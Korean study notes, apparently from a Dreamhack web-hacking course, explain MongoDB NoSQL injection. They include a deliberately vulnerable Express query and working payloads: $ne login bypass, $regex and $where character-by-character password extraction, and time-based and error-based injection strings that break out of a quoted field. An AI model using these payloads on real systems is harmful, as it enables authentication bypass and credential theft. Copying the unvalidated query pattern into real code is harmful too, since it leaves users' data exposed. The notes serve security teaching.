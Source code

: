 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (5) : NoSQL Injection"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 NoSQL Injection (2)

-  [x] NoSQL Injection
-  [x] Bline NoSQL Injection

## ServerSide : NoSQL Injection
SQL Injection과 공격 목적과 방법이 매우 유사하며, 이용자의 입력값이 쿼리에 포함되며 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다. MongoDB는 SQL에서 저장하는 자료형 외에도 오브젝트, 배열 타입을 사용할 수 있다.
<br><br>

MongoDB 자료형 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/type/) <br><br>

**express 데이터 처리 방식** <br><br>
이용자의 입력값과 타입을 출력하는데, req.query의 타입이 문자열로 지정되어 있지 않기 때문에 문자열 외의 타입이 입력될 수 있다.

```js
const express = require('express');
const app = express();
app.get('/', function(req,res) {
    console.log('data:', req.query.data);
    console.log('type:', typeof req.query.data);
    res.send('hello world');
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### NoSQL Injection
MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용할 수 있다. <br><br>

**MongoDB NoSQL Injection Example** <br>

```js
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

위 코드는 user 콜렉션에서 이용자가 입력한 uid와 upw에 해당하는 데이터를 찾고, 출력하는 예제 코드로, 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력할 수 있다. 오브젝트 타입의 값을 입력할 수 있다면, 연산자를 사용할 수 있으며, $ne 연산자는 입력한 데이터와 일치하지 않는 데이터를 반환한다. 따라서, 공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보를 알아낼 수 있다.<br><br>

**ne 연산자 : uid와 upw가 a가 아닌 데이터를 조회한 결과**

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

#### NoSQL Injection 실습 - admin의 계정의 비밀번호 획득하기
upw에 not equal 연산자를 사용하여 upw의 값에 상관 없이 uid가 admin인 데이터를 조회할 수 있다

```
{"uid": "admin", "upw":{"$ne":""}}
```

### Blind NoSQL Injection

MongoDB 연산자 공식 문서 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/)


|Name|Description|
|:---|:---|
|$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
|$text|지정된 텍스트를 검색합니다.|
|$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|

#### $regex
regex 연산자를 활용한 upw에서 각 문자로 시작하는 데이터 조회하기

```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

#### $where
인자로 전달한 JS 표현식을 만족하는 데이터를 조회한다.

```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

# 필드에서는 사용할 수 없다
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

###### substring

해당 연산자로 JS 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있다. 

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

###### Sleep 함수를 통한 Time based Injection

표현식과 함께 sleep 함수를 사용하면, 지연 시간을 통해 참/거짓 결과를 확인할 수 있다. 아래 쿼리는 upw의 첫 글자를 비교하고, 해당 표현식이 참일 때 sleep 함수를 실행한다 

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

###### Error based Injection

에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킨다. 

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```